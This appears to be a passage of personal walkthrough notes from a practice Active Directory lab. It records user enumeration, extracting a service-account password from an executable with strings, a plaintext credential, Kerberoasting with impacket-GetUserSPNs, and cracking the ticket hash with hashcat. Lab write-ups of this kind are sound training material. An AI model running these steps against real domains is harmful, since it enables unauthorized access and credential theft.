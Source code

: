 ```
enumdomusers
```

![[PG/Active Directory/attachments/Pasted image 20250708155754.png]]

Some svc accounts here 

![[PG/Active Directory/attachments/Pasted image 20250708155836.png]]

Backing up a minute....

Grab the `ResetPassword.exe` file from the smbshare

![[PG/Active Directory/attachments/Pasted image 20250708160221.png]]

Run strings with -e l flags against the executable 

```
strings -e l ResetPassword.exe
```

![[PG/Active Directory/attachments/Pasted image 20250708160456.png]]
- get password to the svc_helpdesk this way 

```
svc_helpdesk:U299iYRmikYTHDbPbxPoYYfa2j4x4cdg
```

# impacket-GetUserSPNs?


```
impacket-GetUserSPNs -request -dc-ip 192.168.194.21 nagoya-industries.com/svc_helpdesk -save -outputfile GetUserSPNs.out
```

```
U299iYRmikYTHDbPbxPoYYfa2j4x4cdg
```

![[PG/Active Directory/attachments/Pasted image 20250708161358.png]]

This did work 

![[PG/Active Directory/attachments/Pasted image 20250708161506.png]]
- got the hashies

#### crack krb5 tgs hash
```
hashcat -m 13100 GetUserSPNs.out /usr/share/wordlists/rockyou.txt 
```

This did crack the svc_mssql hash

![[PG/Active Directory/attachments/Pasted image 20250708161642.png]]
